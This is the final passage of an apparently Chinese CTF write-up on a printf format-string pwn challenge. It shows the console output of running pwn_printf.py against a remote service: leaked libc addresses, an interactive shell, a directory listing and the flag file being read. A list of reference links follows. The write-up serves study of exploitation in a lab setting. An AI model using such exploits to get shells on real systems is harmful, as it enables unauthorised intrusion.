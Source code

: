 
# 获取flag
运行exploit获取flag
``` bash
[root@bogon printf]# python pwn_printf.py
[+] Opening connection to 121.194.2.42 on port 8001: Done
exploit begin
puts_addr:  0xf75b3ca0
system addr: 0xf758eda0
[*] Switching to interactive mode
$ ls
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
run.sh
sbin
srv
sys
tmp
usr
var
$ cd home
$ ls
flag
pwn
$ cat flag
flag{ad942938834a3657d8dcf5279d749b8f}
$

```

# Referenced
1. https://www.anquanke.com/post/id/83818
2. https://www.anquanke.com/post/id/83835
3. http://blog.csdn.net/yuanyunfeng3/article/details/51419900
4. https://www.anquanke.com/post/id/85785
5. http://blog.csdn.net/qq_18661257/article/details/54694748
6. http://blog.csdn.net/koozxcv/article/details/51644476
 
